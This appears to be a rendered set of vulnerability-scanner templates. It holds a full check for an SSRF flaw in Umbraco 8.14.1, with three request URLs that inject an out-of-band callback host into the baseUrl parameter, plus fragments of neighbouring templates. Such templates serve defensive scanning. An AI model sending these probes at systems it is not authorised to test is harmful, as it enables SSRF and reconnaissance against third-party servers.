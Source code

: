 **Type - status**

- status
  1. 400

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Umbraco 8.14.1 - baseUrl Server-Side Request Forgery (SSRF)

## Description

- Umbraco 8.1.4.1 allows attackers to use the baseUrl parameter to several programs to perform a server-side request forgery (SSRF) attack.
- severity - medium
- tags - oast,edb,ssrf,umbraco

## Requests

- Method - GET

### URL

- {{BaseURL}}/umbraco/BackOffice/Api/Help/GetContextHelpForPage?section=content&tree=undefined&baseUrl=http://{{interactsh-url}}
- {{BaseURL}}/umbraco/backoffice/UmbracoApi/Dashboard/GetRemoteDashboardContent?section=TryToAvoidGetCacheItem111&baseUrl=http://{{interactsh-url}}/
- {{BaseURL}}/umbraco/backoffice/UmbracoApi/Dashboard/GetRemoteDashboardCss?section=AvoidGetCacheItem&baseUrl=http://{{interactsh-url}}/

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - dsl**

- dsl
  1. len(body_1)==0
  2. len(body_2)==0
  3. len(body_3)==0

---

# WSO2 <5.8.0 - Server Side Request Forgery
